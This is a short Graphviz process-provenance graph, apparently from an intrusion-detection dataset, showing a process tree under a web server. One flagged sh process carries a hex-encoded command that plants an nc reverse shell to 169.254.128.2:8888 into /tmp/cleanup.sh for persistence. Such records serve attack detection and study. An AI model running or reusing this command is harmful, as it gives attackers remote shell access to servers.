 digraph graph1 {
node [shape = record];
table161 [label = "{<head>processname: sh | pid: 1367 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986281293000000 | enddtime: -1 | uuid: 1367}", color = red];
node [shape = record];
table138 [label = "{<head>processname:  | pid: 933 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 933}"];
table138 -> table161;
node [shape = record];
table135 [label = "{<head>processname:  | pid: 925 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 925}"];
table135 -> table138;
node [shape = record];
table0 [label = "{<head>processname:  | pid: 0 | cmdline:  | starttime: 0 | enddtime: -1 | uuid: 0}"];
table0 -> table135;
}
